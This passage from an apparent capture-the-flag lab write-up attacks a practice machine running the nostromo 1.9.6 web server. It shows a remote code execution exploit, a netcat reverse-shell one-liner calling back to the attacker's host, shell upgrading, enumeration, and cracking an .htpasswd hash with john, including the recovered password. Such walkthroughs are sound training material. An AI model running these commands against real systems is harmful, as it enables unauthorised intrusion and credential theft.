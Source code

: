 ```bash
$ searchsploit nostromo 1.9.6
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
                                                        | (/usr/share/exploitdb/)
-------------------------------------------------------- ---------------------------------
nostromo 1.9.6 - Remote Code Execution                  | exploits/multiple/remote/47837.py
-------------------------------------------------------- ---------------------------------
Shellcodes: No Result
Papers: No Result

$ searchsploit -m exploits/multiple/remote/47837.py
# Read script and figure out how it works.
$ python 47837.py 10.10.10.165 80 whoami
www-data
```

This gets us command execution. Let's get a reverse shell.

`$ python 47837.py 10.10.10.165 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.11 1234 >/tmp/f"
`

```bash
$ nc -lvnp 1234
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ # Ctrl-Z
# Local shell
$ stty echo -raw; fg
www-data@traverxec:/usr/bin$ export TERM=xterm-256color
www-data@traverxec:/usr/bin$ export SHELL=bash
www-data@traverxec:/usr/bin$ clear
```

### User Privesc 

I spin up a Python webserver on my local machine with `$ python3 -m http.server 8000` and use `wget` on the remote machine to pull down `LinEnum.sh` into the `/tmp` directory, `chmod +x` it and run it.

```bash
[-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

I put the line with the hash into its own file and run `john` on it to see if I can crack it.

```bash
john htpasswd -w=~/tools/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:39 DONE (2020-04-07 07:21) 0.02540g/s 268760p/s 268760c/s 268760C/s Noyoo..Noury
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
